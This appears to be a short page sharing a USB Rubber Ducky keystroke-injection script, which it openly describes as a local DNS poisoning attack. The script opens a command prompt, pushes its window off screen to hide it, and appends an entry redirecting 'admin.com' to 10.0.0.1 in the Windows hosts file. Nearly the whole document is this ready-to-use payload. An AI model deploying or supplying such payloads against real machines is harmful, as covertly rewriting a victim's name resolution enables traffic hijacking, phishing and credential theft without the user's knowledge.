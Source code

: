 The following is a local DNS poisoning attack that changes a hosts 'host' file. The host will then be redirected to the website of your choice (IP Address), every time the user types in the given domain name in their browser. 

```
REM Author:ashbreeze96 and overwraith
CONTROL ESCAPE
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
DELAY 50
STRING ECHO. >> C:\WINDOWS\SYSTEM32\DRIVERS\ETC\HOSTS
DELAY 50
ENTER
DELAY 50
STRING ECHO 10.0.0.1 ADMIN.COM >> C:\WINDOWS\SYSTEM32\DRIVERS\ETC\HOSTS
DELAY 50
ENTER
STRING exit
ENTER
```